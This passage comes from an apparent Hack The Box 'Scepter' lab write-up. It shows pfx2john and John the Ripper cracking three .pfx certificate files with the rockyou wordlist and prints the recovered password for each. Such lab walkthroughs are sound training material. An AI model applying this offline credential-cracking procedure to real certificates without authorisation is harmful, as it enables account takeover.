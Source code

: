 After we got our first actual `username` we used `pfx2john` to generate `hashes` for each of the `.pfx` files in order to crack them using `John the Ripper`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ pfx2john clark.pfx > clark.hash
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ pfx2john lewis.pfx > lewis.hash
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ pfx2john scott.pfx > scott.hash
```

Each of the `.pfx` files used the same `password` during the creation.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ sudo john clark.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 256 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
newpassword      (clark.pfx)     
1g 0:00:00:00 DONE (2025-04-19 21:15) 3.571g/s 18285p/s 18285c/s 18285C/s newzealand..babygrl
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ sudo john lewis.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 256 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
newpassword      (lewis.pfx)     
1g 0:00:00:00 DONE (2025-04-19 21:16) 3.333g/s 17066p/s 17066c/s 17066C/s newzealand..babygrl
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ sudo john scott.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 256 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
newpassword      (scott.pfx)     
1g 0:00:00:00 DONE (2025-04-19 21:17) 3.448g/s 17655p/s 17655c/s 17655C/s newzealand..babygrl
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
